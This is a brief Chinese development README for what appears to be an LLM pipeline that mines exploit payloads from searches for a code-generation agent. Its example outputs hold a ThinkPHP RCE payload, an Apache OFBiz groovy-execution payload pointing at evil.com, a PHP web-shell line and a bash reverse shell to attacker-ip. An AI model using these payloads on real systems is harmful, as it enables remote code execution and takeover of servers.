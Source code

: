 # 250807 README

## 任务描述

1. 遇到的问题

之前用思维链测试的时候，发现思维链会使模型“过度思考”，总结出多余的 `command_attack`. 其中多余的 `command_attack`的来源包括：

- 思维链里给出的分析案例
- 教程的讲解内容
- 模型的联想

```json
{
  "exploits": [
    "POST /index.php?s=captcha",
    "POST parameter: _method",
    "POST parameter: filter[]",
    "POST parameter: method",
    "POST parameter: server[REQUEST_METHOD]"
  ],
  "payloads": [
    "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id"
  ],
  "attack_commands": [
    "id",
    "system($_POST['cmd'])",
    "exec(\"bash -c 'bash -i >& /dev/tcp/attacker-ip/port 0>&1'\")"
  ]
}
```

2. 解决方案

在搜索阶段只提payload，将 `command_attack`解析留到代码生成那块去做。

- DEEPSEEK-CHAT

```json
{
  "payloads": [
    "statsDecoratorLocation=http://10.10.10.10/path/to/api",
    "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<screens xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"\n        xmlns=\"http://ofbiz.apache.org/Widget-Screen\" xsi:schemaLocation=\"http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd\">\n\n    <screen name=\"StatsDecorator\">\n        <section>\n            <actions>\n                <set value=\"${groovy:'touch /tmp/success'.execute();}\"/>\n            </actions>\n        </section>\n    </screen>\n</screens>",
    "statsDecoratorLocation=http://evil.com/ofbiz/payload.xml"
  ]
}
```

- DEEPSEEK-REASONER

3. 下一步的工作：将检索加进来（Max_result=3），先预处理一下网页信息，最后参考这个工作将搜索部分的内容总结为报告的形式，提交给代码生成的代理

![example](image/250807\1754540964374.png)
